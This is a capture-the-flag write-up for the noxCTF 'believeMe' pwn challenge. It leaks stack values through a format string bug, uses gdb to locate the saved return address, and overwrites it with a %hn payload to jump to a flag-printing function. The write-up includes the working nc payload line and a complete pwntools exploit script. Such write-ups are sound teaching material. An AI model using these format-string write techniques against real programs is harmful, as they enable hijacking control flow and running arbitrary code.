


# Writeup - noxCTF - believeMe ("Pwn" Category)

## Instructions:
What is going on here ?
I don't believe you...
you are crazy !!!

(No ASLR)
nc 18.223.228.52 13337

*[A binary file was attached as well]*

## Solution:
We connect to the supplied address and receive the following output:

```console
$  nc 18.223.228.52 13337
Someone told me that pwning makes noxāle...
But......... how ????
```

We can then enter text, which is echoed right back at us. The connection is then immediately closed.

After trying various inputs, we see the following:

```console
$ nc 18.223.228.52 13337
$ echo "%x" | nc 18.223.228.52 13337
Someone told me that pwning makes noxāle...
But......... how ????
804890c
```

This application is vulnerable to a Format String attack (a good reference for Format String attacks can be found [here](http://julianor.tripod.com/bc/formatstring-1.2.pdf)).

Let's take a look at the assembly:



The program uses `fgets` to read the input from the user into the local `input` buffer, uses `strcspan` to replace the line feed (`\n`) with a null terminator, and immediately calls `printf` with the input as the `format` parameter. Therefore, any format specifier supplied by the user will be interpreted and handled by `printf`.

Assuming we can use this vulnerability to perform arbitrary memory reads and writes, how do we use that to read the flag?

Fortunately, the creators supplied us with a convenient `noxFlag` function:



It opens `flag.txt`, and outputs the contents.

the function is not referenced from anywhere, but if we can take control of some return address, we can jump to it and get the flag.

Let's see what can we easily access using our format string vulnerability by leaking some values from the stack:

```console
$ echo "AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x" | nc 18.223.228.52 13337 && echo ""
Someone told me that pwning makes noxāle...
But......... how ????
AAAA804890c.f7fc95c0.8099dd00.9.ffffdec9.f7e24049.ffffddc4.f7fc9000.41414141.252e7825.78252e78.
$ echo "AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x" | nc 18.223.228.52 13337 && echo ""
Someone told me that pwning makes noxāle...
But......... how ????
AAAA804890c.f7fc95c0.26a07e00.9.ffffdec9.f7e24049.ffffddc4.f7fc9000.41414141.252e7825.78252e78.
$ echo "AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x" | nc 18.223.228.52 13337 && echo ""
Someone told me that pwning makes noxāle...
But......... how ????
AAAA804890c.f7fc95c0.eae92300.9.ffffdec9.f7e24049.ffffddc4.f7fc9000.41414141.252e7825.78252e78.
```

We start by printing "AAAA" to easily locate the beginning of our `input` buffer, then read 13 DWORDs from the stack using `%x`.

We can see our `input` buffer as the ninth DWORD from the beginning of the stack  (0x41414141, which is "AAAA" in ASCII). Before that, we have two DWORDs which are also part of `main`'s local variables, as identified by IDA:


So `VAR_3C` (the first local variable of `main`) got the value of 0xffffddc4.

The variables before that got their value anytime before `printf` printed the output we saw.

We can also see that most leaked values don't change between calls, so if one of the values resembles an address on the stack, and the value doesn't change between calls (thank you for disabling ASLR), we can use this value to calculate the address of a return pointer and override it in order to hijack the flow.

Let's study the leaked values a bit more by running the program locally and using a debugger.

```console
root@kali:/media/sf_CTFs/noxale/believe# echo "AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x" > input.txt
root@kali:/media/sf_CTFs/noxale/believe# gdb ./believeMe
GNU gdb (Debian 7.12-6+b1) 7.12.0.20161007-git
[...]
Reading symbols from ./believeMe...(no debugging symbols found)...done.
(gdb) b *0x080487E9
Breakpoint 1 at 0x80487e9
(gdb) r < input.txt
Starting program: /media/sf_CTFs/noxale/believe/believeMe < input.txt
Someone told me that pwning makes noxāle...
But......... how ???? 
AAAA804890c.f7fb95c0.d05eac00.9.ffffd560.f7e13b09.ffffd3e4.f7fb9000.41414141.252e7825.78252e78.
Breakpoint 1, 0x080487e9 in main ()
(gdb) info proc mappings
process 1744
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /media/sf_CTFs/noxale/believe/believeMe
	 0x8049000  0x804a000     0x1000        0x0 /media/sf_CTFs/noxale/believe/believeMe
	 0x804a000  0x804b000     0x1000     0x1000 /media/sf_CTFs/noxale/believe/believeMe
	 0x804b000  0x806d000    0x22000        0x0 [heap]
	0xf7de3000 0xf7dfc000    0x19000        0x0 /lib32/libc-2.27.so
	0xf7dfc000 0xf7f48000   0x14c000    0x19000 /lib32/libc-2.27.so
	0xf7f48000 0xf7fb6000    0x6e000   0x165000 /lib32/libc-2.27.so
	0xf7fb6000 0xf7fb7000     0x1000   0x1d3000 /lib32/libc-2.27.so
	0xf7fb7000 0xf7fb9000     0x2000   0x1d3000 /lib32/libc-2.27.so
	0xf7fb9000 0xf7fba000     0x1000   0x1d5000 /lib32/libc-2.27.so
	0xf7fba000 0xf7fbd000     0x3000        0x0 
	0xf7fce000 0xf7fd0000     0x2000        0x0 
	0xf7fd0000 0xf7fd3000     0x3000        0x0 [vvar]
	0xf7fd3000 0xf7fd5000     0x2000        0x0 [vdso]
	0xf7fd5000 0xf7fd6000     0x1000        0x0 /lib32/ld-2.27.so
	0xf7fd6000 0xf7ff1000    0x1b000     0x1000 /lib32/ld-2.27.so
	0xf7ff1000 0xf7ffb000     0xa000    0x1c000 /lib32/ld-2.27.so
	0xf7ffc000 0xf7ffd000     0x1000    0x26000 /lib32/ld-2.27.so
	0xf7ffd000 0xf7ffe000     0x1000    0x27000 /lib32/ld-2.27.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb)
```

We can see that the stack is between 0xfffdd000-0xffffe000, and that we have two leaked values which fit in that range: 0xffffd560 and 0xffffd3e4 (note that we are running locally and therefore the leaked values are different).
Another observation is that the value of 0xffffd3e4 is in fact stored in `main`'s local variable `var_3C` that we've seen earlier. 

Let's restart, break on the call to `printf` and try to locate the address on the stack storing the return address to `main`.

```
(gdb) b *0x080487D3
Breakpoint 2 at 0x80487d3
(gdb) set disassembly-flavor intel
(gdb) display/i $pc
(gdb) r < input.txt
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /media/sf_CTFs/noxale/believe/believeMe < input.txt
Someone told me that pwning makes noxāle...
But......... how ???? 

Breakpoint 4, 0x080487d3 in main ()
1: x/i $pc
=> 0x80487d3 <main+124>:	call   0x80484b0 <printf@plt>
(gdb) si
0x080484b0 in printf@plt ()
1: x/i $pc
=> 0x80484b0 <printf@plt>:	jmp    DWORD PTR ds:0x804a00c
(gdb) x /20xw $esp
0xffffd2dc:	0x080487d8	0xffffd304	0x0804890c	0xf7fb95c0
0xffffd2ec:	0x3969e200	0x00000009	0xffffd560	0xf7e13b09
0xffffd2fc:	0xffffd3e4	0xf7fb9000	0x41414141	0x252e7825
0xffffd30c:	0x78252e78	0x2e78252e	0x252e7825	0x78252e78
0xffffd31c:	0x2e78252e	0x252e7825	0x78252e78	0xff00252e
(gdb) 
```

So right after stepping into the call to `printf`, the return address to `main` (0x080487d8) is pushed on to the stack at address 0xffffd2dc.
The value of `var_3C` was 0xffffd3e4, and the difference is 0xffffd3e4 - 0xffffd2dc = 0x108.
Therefore, the plan is to:
- Run once, note the value of `var_3C`
- Subtract 0x108 from that value, and get the address storing the return value from `printf` to `main`
- Run again, override the return address (0x080487d8) with the address of `noxFlag` (0x0804867B)
- When returning from `printf`, the flow will continue to `noxflag` and print the flag

We already have the value of `var_3C` from the server: 0xffffddc4.
0xffffddc4 - 0x108 = 0xffffdcbc.
Let's start building our format string to write to that address:

```console
root@kali:~# python -c "print ('\xbc\xdc\xff\xff%4x%9\$p')"  | nc 18.223.228.52 13337 && echo ""
Someone told me that pwning makes noxāle...
But......... how ???? 
����804890c0xffffdcbc
```

What do we have here?
- "\xbc\xdc\xff\xff": This is the address we want to write to (0xffffdcbc), formatted as little-endian.
- "%4x" - A placeholder which will be used in order to control the value written to the address above, by utilizing the width specifier (currently set to 4). changing the width specifier allows controlling the amount of characters written as part of this format specifier. Note: This format specifier currently causes the value of "804890c" to be printed, but the actual value being printed is not important since we just want to use this format specifier to control the number of characters printed.
- "%9\$p" - "Take the ninth DWORD from the stack, treat it as a pointer and print it" - just in order to make sure we are able to locate the address we want to write to (and indeed, it prints 0xffffdcbc). When we change the "p" to "n", `printf` will dereference this address and write to it the number of characters outputted (which we can control using the width specifier as explained above).

We're almost set, just a few more minor tweaks and we're done.

When we use "%n" to write the amount of characters outputted, the value gets written as a DWORD. Since the value we want to write (the address of `noxFlag`, i.e. 0x0804867B) is pretty large (and is based on characters outputted to the screen), and since the original value (the return address to `main`, i.e. 0x080487d8) is in the same area, we can actually just override the lower WORD, as the upper WORD (0x0804) already contains the value we want. To do that, we use "%hn" instead of "%n" - this will dereference the same address on the stack, but write a WORD to that address.

Last but not least, we must modify our width specifier to output the value we want.
We want to write "0x867B" (34427). We've already written 4 bytes with "\xbc\xdc\xff\xff". So 34427 - 4 = 34423.

Therefore our complete exploit will be:

```console
root@kali:~# python -c "print ('\xbc\xdc\xff\xff%34423x%9\$hn')" | nc 18.223.228.52 13337
Someone told me that pwning makes noxāle...
But......... how ???? 
����
[many spaces...]
                                                          804890c
Hooo right... noxāle 

noxCTF{%N3ver_%7rust_%4h3_%F0rmat}
root@kali:~# 
```

The flag: **noxCTF{%N3ver_%7rust_%4h3_%F0rmat}**

Exploit using pwntools:

```python
from pwn import *

PROC_NAME = "./believeMe"

def send_payload(payload, proc):
	log.info("payload = {} (len = {})".format(repr(payload), len(payload)))
	proc.sendline(payload)
	ret = proc.recvall()
	log.info("return = {}".format(repr(ret)))
	return ret

def send_payload_local(payload):
	return send_payload(payload, process(PROC_NAME))

def send_payload_remote(payload):
	return send_payload(payload, remote('18.223.228.52', 13337))

f = FmtStr(execute_fmt=send_payload_local)
offset = f.offset
log.info("Found offset = {}".format(offset))

f = FmtStr(execute_fmt=send_payload_remote, offset = offset)
var_3C = f.leak_stack(7)
log.info("Address on stack = {}".format(hex(var_3C)))

ret_addr = var_3C - 0x108
log.info("Return address location = {}".format(hex(ret_addr)))

e = ELF(PROC_NAME)
noxFlag_addr = e.symbols['noxFlag']
log.info("noxFlag address = {}".format(hex(noxFlag_addr)))

f = FmtStr(execute_fmt=send_payload_remote, offset = offset)
f.write(ret_addr, noxFlag_addr)
f.execute_writes()

```